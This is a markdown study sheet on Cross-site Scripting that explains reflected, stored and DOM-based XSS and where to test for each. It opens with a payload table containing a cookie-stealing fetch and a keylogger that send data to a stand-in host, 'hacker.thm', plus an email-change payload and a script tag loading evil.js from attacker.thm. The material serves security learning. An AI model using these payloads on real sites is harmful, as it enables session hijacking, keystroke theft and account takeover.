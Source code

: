 ## Cross-site Scripting (XSS)
| Description | Example |
| - | - |
| Proof of Concept | `<script>alert('XSS');</script>` |
| Session Stealing | `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>` |
| Key Logger | `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>` |
| Business Logic | `<script>user.changeEmail('attacker@hacker.thm');</script>` |

### Reflected XSS
User-supplied data in an HTTP request is included in the webpage source without any validation.

```html
<div class="alert alert-danger">
    <p><script src="https://attacker.thm/evil.js"></script></p>
</div>
```
How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

### Stored XSS
The XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

How to test for Stored XSS:

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:
- Comments on a blog
- User profile information
- Website Listings

### DOM Based XSS
[DOM](https://www.w3.org/TR/REC-DOM-Level-1/introduction.html) stands for **Document Object Model** and is a programming interface for `HTML` and `XML` documents.
It represents the `page` so that programs can change the **document structure, style and content**.
A web `page` is a document, and this document can be either displayed in the `browser window` or as the `HTML source`.

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.
Execution occurs when the website JavaScript code acts on input or user interaction.

How to test for Dom Based XSS:
1. You'd need to look for parts of the code that access certain `variables` that an attacker can have control over, such as `window.location.x` parameters.
2. When you've found those bits of code, you'd then need to see how they are handled and whether the `values` are ever written to the web page's DOM or passed to unsafe JavaScript methods such as `eval()`.

